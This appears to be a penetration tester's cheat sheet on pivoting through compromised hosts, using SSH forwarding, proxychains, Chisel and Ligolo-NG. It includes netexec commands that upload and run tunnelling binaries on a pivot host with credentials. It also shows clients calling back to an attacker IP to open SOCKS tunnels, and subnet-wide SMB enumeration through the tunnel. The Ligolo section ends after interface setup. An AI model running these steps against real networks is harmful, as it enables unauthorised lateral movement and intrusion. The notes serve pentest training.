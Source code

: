 # Pivoting & Port Forwarding

## Dynamic Port Forwarding with SSH & SOCKS

### Local Port forward using SSH
> Most useful for services that are not available to anything but localhost.
* Forward a single port on the local host to a single port on a remote host.
```bash
ssh -L [local port]:localhost:[remote port] [user]@[$IP]
```
* Forward multiple ports
```bash
ssh -L [local port]:localhost:[remote port] -L [local port]:localhost:[remote port] [user]@[$IP]
```

### Dynamic Port Forwarding using SSH (SSH Tunneling over SOCKS)
* Verify proxychains is set up for Dynamic Port Forwarding
```bash
tail -4 /etc/proxychains4.conf

# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
* Setup the tunnel over SSH
```bash
ssh -D [localport] [user]@[$IP]
```
* Verify
```bash
proxychains4 -q nxc smb [remote subnet] -u '' -p ''
```

## Pivoting with [Chisel](https://github.com/jpillora/chisel)
### Reverse Tunnel
#### Setup
* Download the appropriate binaries for the target and attack host
* Verify you have command execution on the pivot host
* Upload the appropriate binary to the compromised pivot host:
```bash
# example using netexec
nxc smb $IP -u [user] -p [pass] --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
```
#### Execution
* Start the server on the attack host
```bash
./chisel server --reverse
```
* Connect the chisel client (on the pivot host) to the server (on the attack host)
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe client [attacker IP]:8080 R:socks'
```
* Verify server recieved the connection
```bash
# Example
2022/11/06 10:57:54 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
* Verify proxychains is setup for the tunnel
```bash
tail /etc/proxychains4.conf

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```
* Verify connection
```bash
# Example using netexec
proxychains4 -q nxc smb $IP -u [user] -p [pass] --shares

# or even better, scan the whole subnet
proxychains4 -q nxc smb [subnet]/[CIDR]
```
* Killing chisel on the pivot host
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -X 'Stop-Process -Name chisel -Force'
```
'CTRL-C' to kill the server on the attack host

### Straight Tunnel
* Same setup as the reverse tunnel
* Start the server on the pivot host
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe server --socks5'
```
* Connect to the chisel server from our attack host
```bash
sudo chisel client [IP]:[port] socks
```
* Entries in /etc/proxychains4.conf are the same as for the reverse tunnel.
* Verify operation
```bash
sudo proxychains4 -q nxc smb $IP -u [user] -p [pass] --shares
```

## [Ligolo-NG](https://github.com/nicocha30/ligolo-ng)
#### Pivot Host Setup
* Upload the appropriate binary to the pivot host
* Execute the agent on the pivot host
```bash
# Linux & Windows
./agent -connect [AttackerIP]:11601
```
#### Attacker Machine Setup
* Create the interface for Ligolo to use
```bash
sudo ip tuntap add user <username> mode tun ligolo

sudo ip link set ligolo up

# Verify iface added
ip addr show ligolo
```
# Test this out for verification before proceeding

